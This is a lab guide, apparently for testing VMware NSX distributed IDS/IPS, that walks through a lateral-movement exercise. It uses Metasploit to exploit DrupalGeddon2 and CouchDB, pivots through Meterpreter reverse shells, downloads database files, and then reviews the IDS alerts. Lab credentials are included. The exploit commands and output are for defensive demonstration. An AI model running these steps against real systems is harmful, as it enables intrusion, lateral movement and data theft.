



## 7. Lateral Movement Scenario
**Estimated Time to Complete: 60 minutes**

In this exercise, we will again establish a **reverse shell** from the Drupal server, and use it as a **pivot** to gain access to the internal network which is not direclty accessible from the external VM. Traffic to the internal network will be routed through the established **reverse shell** from the **App1-WEB-TIER VM**. 

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit -z** to initiate the exploit, esbalish a reverse shell, and background the session.
    
```console
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit -z

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:50982) at 2020-07-21 20:30:34 -0500
[*] Session 1 created in the background.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >
```
    
**Route traffic to the Internal Network through the esablished reverse shell**
1.	Once the Meterpreter session is established and backgrounded, type **route add 192.168.20.0/24 1**, where the subnet specified is the subnet of the **Internal Segment**
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > route add 192.168.20.0/24 1
[*] Route added
```
2.	Now that we have instructed Metapsloit to route traffic to the internal subnet through the reverse shell, we can pivot the attack and attack the **App1-APP-TIER VM** on the internal network, which is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.100** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-APP-TIER VM**. (check the NSX VM Inventory to confirm)
    * Type **set LHOST 10.114.209.151** to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4445** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.100
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App1-WEB-APP VM** back to the **Extermal VM**
```console
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/l8sEqcccZNK
[*] Local IP: http://10.114.209.151:8080/l8sEqcccZNK
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /l8sEqcccZNK
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:50665) at 2020-07-22 08:48:51 -0500
[+] Deleted /tmp/jekukcmc
[+] Deleted /tmp/okmyzfondlujy
[*] Server stopped.
```
3. You can now interact with the shell session or upgrade to a more powerful Meterpreter session. In order to upgrade to Meterpreter, you can run the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8081** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 2** to indicate the reverse command shell session from **App1-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session

```console
background
Background session 2? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8081
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. Confirm a **Meterpreter** reverse TCP session was established from **App1-APP-TIER VM** back to the **Extermal VM** and interact with the session.
```console
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.114.209.151:8081
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 3 opened (10.114.209.151:8081 -> 10.114.209.148:59526) at 2020-07-22 09:42:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```
5. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                                         Connection
  --  ----  ----                   -----------                                                         ----------
  1         meterpreter php/linux  www-data (33) @ 273e1700c5be                                        10.114.209.151:4444 -> 192.168.10.101:52496 (192.168.10.101)
  2         shell x64/linux                                                                            10.114.209.151:4445 -> 10.114.209.148:50665 (192.168.20.100)
  3         meterpreter x86/linux  no-user @ fd5e509d541b (uid=0, gid=0, euid=0, egid=0) @ 172.19.0.2  10.114.209.151:8081 -> 10.114.209.148:59526 (172.19.0.2)
```
> **Note**: the external IP address (10.114.209.148) the above example for sessions 2 and 3 is the NATted IP address **App1-APP-TIER VM** to establish the reverse shell. NAT was pre-configured during the automated lab deployment.

   * Type **sessions -i 3** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise but gain more information about the **App1-APP-TIER VM**, retrieve or destroy data. Below is an example

```console
meterpreter > ps

Process List
============

 PID   PPID  Name          Arch    User  Path
 ---   ----  ----          ----    ----  ----
 1     0     beam.smp      x86_64  root  /opt/couchdb/erts-6.2/bin
 36    1     sh            x86_64  root  /bin
 37    1     memsup        x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 38    1     cpu_sup       x86_64  root  /opt/couchdb/lib/os_mon-2.3/priv/bin
 40    1     inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 41    40    inet_gethost  x86_64  root  /opt/couchdb/erts-6.2/bin
 42    1     couchjs       x86_64  root  /opt/couchdb/bin
 45    1     sh            x86_64  root  /bin
 48    45    sh            x86_64  root  /bin
 1392  1     sh            x86_64  root  /bin
 1395  1392  sh            x86_64  root  /bin
 1552  1395  woPDm         x86_64  root  /tmp
 1559  1     sh            x86_64  root  /bin
 1562  1559  sh            x86_64  root  /bin
 1754  1562  Qkchu         x86_64  root  /tmp
 1760  0     bash          x86_64  root  /bin
```
> **Note**: The VMs deployed in this lab run Drupal and CouchCB services as containers (built using Vulhub). The establshed session puts you into the container **cve201712635_couchdb_1** container shell.

6.	Now we can pivot the attack once more and laterally move to other application VM deployed in the same network segment as **App1-APP-TIER VM**. We will will use the same **apache_couchdb_cmd_exec** exploit to  the **App2-APP-TIER VM** on the internal network, which also is running a vulnerable **CouchDB** Service. 

**Initiate CouchDB Command Execution attack against App2-APP-TIER VM through App-1-APP-TIER VM**
1.	Using the already open Metasploit console, follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **background** to move the open meterpreter session to the background.
    * Type **route add 192.168.20.101/32 3** to route traffic to the **App2-APP-TIER VM** through the previusly established meterpreter session. The IP address specified should be the IP address of the **App2-APP-TIER VM**
    * Type **use exploit/linux/http/apache_couchdb_cmd_exec** to select the CouchDB Command Execution exploit module
    * Type **set RHOST 192.168.20.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App2-APP-TIER VM**. (check the NSX VM Inventory to confirm)+
    * Type **set LHOST 10.114.209.151** to define the IP address of the local attacker machine. The IP address should match the IP address of **EXTERNAL VM**. (This IP will be different in your environment !. You can run **ifconfig** to determine this IP)
    * Type **set LPORT 4446** to define the local port to use. The reverse shell will be established to this local port
    * Type **exploit** to initiate the exploit and esbalish a command shell
```console
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/manage/shell_to_meterpreter) > route add 192.168.20.101/32 3
[*] Route added
msf5 post(multi/manage/shell_to_meterpreter) > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOST 192.168.20.101
RHOST => 192.168.20.100
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.114.209.151
LHOST => 10.114.209.151
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 4446
LPORT => 4446
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit
```
2. Confirm the vulnerable server was sucessfully exploited and a **shell** reverse TCP session was established from **App2-APP-TIER VM** back to the **Extermal VM**
```console2
[*] Started reverse TCP handler on 10.114.209.151:4446
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/GAFpUcHbTSn8hBi
[*] Local IP: http://10.114.209.151:8080/GAFpUcHbTSn8hBi
[*] 192.168.20.101:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /GAFpUcHbTSn8hBi
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 4 opened (10.114.209.151:4446 -> 10.114.209.148:31532) at 2020-07-22 11:29:30 -0500
[+] Deleted /tmp/phfyklia
[+] Deleted /tmp/xhvxgpbjttxvgccd
```
3. You can now also upgrade this shell to Meterpreter, by running the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8082** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 4** to indicate the reverse command shell session from **App2-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session
```console
background
Background session 4? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8082
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 4
session => 4
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. Confirm a **Meterpreter** reverse TCP session was established from **App2-APP-TIER VM** back to the **Extermal VM** and interact with the session. You may see 2 Meterpreter sessions get established. 
```console
[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.114.209.151:8082
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 5 opened (10.114.209.151:8082 -> 10.114.209.148:15262) at 2020-07-29 09:45:08 -0500
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 6 opened (10.114.209.151:8082 -> 10.114.209.148:12896) at 2020-07-29 09:45:12 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```

5. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App2-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l
```
   * Type **sessions -i 5** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise to gain more information about the **App2-APP-TIER VM**, retrieve or destroy data. 
   * Type **ls /opt/couchdb/data** to see CouchDB database files   
   * Type **download /opt/couchdb/data** to see CouchDB database files
```console

meterpreter > ls /opt/couchdb/data
Listing: /opt/couchdb/data
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  ._replicator_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:51 -0500  ._users_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:48 -0500  .delete
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  .shards
100644/rw-r--r--  24764  fil   2020-07-22 15:14:44 -0500  _dbs.couch
100644/rw-r--r--  8368   fil   2020-07-22 11:28:51 -0500  _nodes.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _replicator.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _users.couch
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:52 -0500  shards

meterpreter > download /opt/couchdb/data/
[*] mirroring  : /opt/couchdb/data//.delete -> /.delete
[*] mirrored   : /opt/couchdb/data//.delete -> /.delete
[*] mirroring  : /opt/couchdb/data//._users_design -> /._users_design
[*] mirroring  : /opt/couchdb/data//._users_design/mrview -> /._users_design/mrview
[*] downloading: /opt/couchdb/data//._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view -> /._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view
...
```
This completes the lateral movement attack scenario. Now we will go back to NSX manager and investigat this attack. Skip the below step #5 if you have gone through the manaul attack steps above.

6. If you prefer not to manually go through this attack scenario, using the above steps, you can instead run the pre-defined attack script by running **sudo ./attack2.sh**. Before you execute the script, use **sudo nano attack1.rc** and replace the RHOST and LHOST IP addresses accordingly to match with the IP addresses in your environment. 
**RHOST** on line 3 should be the IP address of the **App1-WEB-TIER VM**
**SUBNET** on line 6 (route add) should be the **Internal Network** subnet
**LHOST** on line 9 should be the IP address of the **External VM** (this local machine)
**RHOST** on line 10 should be the IP address of the **App1-APP-TIER VM**
**RHOST** on line 13 should be the IP address of the **App2-APP-TIER VM**

> **Note**: This scripted attack does not upgrade shell sessions to meterpreter sessions nor does it interact with the sessions. To interact with the established sessions, but it will cause the same signatures to fire on the NSX IDS/IPS.


**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload

3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 4 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Apache CouchDB Remote Code Execution**, with **APP-1-WEB-TIER**, **APP-1-APP-TIER**, **APP-2-APP-TIER** as Affected VMs
    * Signature for **Apache CouchDB Remote Privilege Escalation**, with **APP-1-WEB-TIER**, **APP-1-APP-TIER**, **APP-2-APP-TIER** as Affected VMs
    
    

> **Note**: Events are ordered based on the time a particular signature last fired. The last event is at the top of the table.

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click **View Intrusion History** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections
    * this event contains vulnerability details including the **CVSS score** and **CVE ID**. Click the **2018-7600** CVE link to open up the **Mitre** CVE page and learn more about the vulnerability.
6. **Optionally**, you can check the  obove details as well for the secondary event (except for the vulnerability details, which are not applicable to this more general signature)
7. Now we can look at the **CouchDB** exploit, which we used to move laterally from **APP-1-WEB-TIER** to **APP-1-APP-TIER** and from **APP-1-APP-TIER**  to **APP-2-APP-TIER**. 
8. Click the **>** symbol to the left of the **SLR Alert - Apache CouchDB Remote Privilege Escalation (CVE-2017-12635)** event
    * Confirm that the IP addresses of the attacker and victim match with the **APP-1-APP-TIER VM** and **APP-2-APP-TIER VM** respectlively. This represents the last time this particular signature fired. 
    * click **View Intrusion History** to see details about the exploit attempts. You should be able to conirm that first this exploit was used to move the attack from **APP-1-WEB-TIER (192.168.10.101)** to **APP-1-APP-TIER (192.168.20.100) ** and then from **APP-1-APP-TIER**  to **APP-2-APP-TIER (192.168.20.101)**. 
  


> **Note**: You will see 2 log entries for each connection, because the Distributed IDS/IPS has been enabled on both source and destination. 

9. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS Apache CouchDB Remote Code Execution 1** event. Conirm the instrusion history matches the one of the event you previously looked at. 
10. Now you can apply a wide array of filter criteria in order to only look at specific events. Use the checkboxes and filter to zoom in to specifc events:
     * Only look at **Critical Severity** level events. There should only be one.
     * Only look at events related to the the **APP-1-APP-TIER** VM. There should be 4 as this VM was the initial target as well as the pivot of an attack.
     * Only look at events with a **CVSS Score** of **9 and above**. There should be 3.
     * Only look at events where the **affected product** is **Drupal Service**. There should be 1.
     * Only look at events related to the **APP-1-APP-TIER** where the **CVSS** is **9 and above*. There should be 2.

You have now successfully completed a lateral attack scenario ! 
In the next (optional) exercise, we will configure some more advanced settings such as **signature exclusions/false positive tuning** and the ability to send IDS/IPS logs directly a SIEM from every host.


Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step: 8. Advanced Attack and Configuration***](/docs/8-AdvancedAttackandConfiguration)
